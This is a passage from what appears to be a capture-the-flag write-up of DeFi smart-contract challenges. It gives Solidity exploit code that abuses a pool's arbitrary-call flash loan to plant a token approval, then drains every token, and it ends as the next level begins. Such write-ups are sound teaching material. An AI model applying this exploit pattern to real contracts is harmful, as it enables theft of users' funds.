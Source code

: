 To beat this level, we need to comply with

```solidity
// did we drain the pool?
assertEq(token.balanceOf(msg.sender), TOKENS_IN_POOL);
assertEq(token.balanceOf(address(pool)), 0);
```

### Solution

Notice that `TrusterLenderPool.flashLoan` executes any function at _any target_ for you

```solidity
target.functionCall(data);
```

We set an approval to receive all the tokens after we perform a flash loan then

```solidity
// tell the pool in the custom function to approve a transfer to us
bytes memory data = abi.encodeWithSelector(IERC20.approve.selector, address(this), TOKENS_IN_POOL);
```

One question during the analysis of this problem was "_But then, how do we give the funds back to the loan, while we plant the approval?_". Fortunately,

1. the pool doesn't control for loans of `0` tokens nor charge fees, so we don't need to equip a mechanism to give funds back.
2. ERC20's `transfer` doesn't fail when the `amount` is 0.

We issue the flash loan of 0, and then take the funds.

```solidity
// the pool doesn't control for a loan of 0 tokens, nor charges a fee.
// hence, we don't need to prepare a callback to give it funds back.
pool.flashLoan(
  0,
  address(this),
  address(token),
  data
);

// with our approval planted, we just take the funds
token.transferFrom(address(pool), address(this), TOKENS_IN_POOL);
```

### Reference

* https://docs.openzeppelin.com/contracts/4.x/api/utils#Address-functionCall-address-bytes-

## 04 Side Entrance

To beat this level, we need to comply with

```solidity
// did we drain the pool?
assertEq(msg.sender.balance, PLAYER_INITIAL_ETH_BALANCE + ETHER_IN_POOL);
assertEq(address(pool).balance, 0);
```
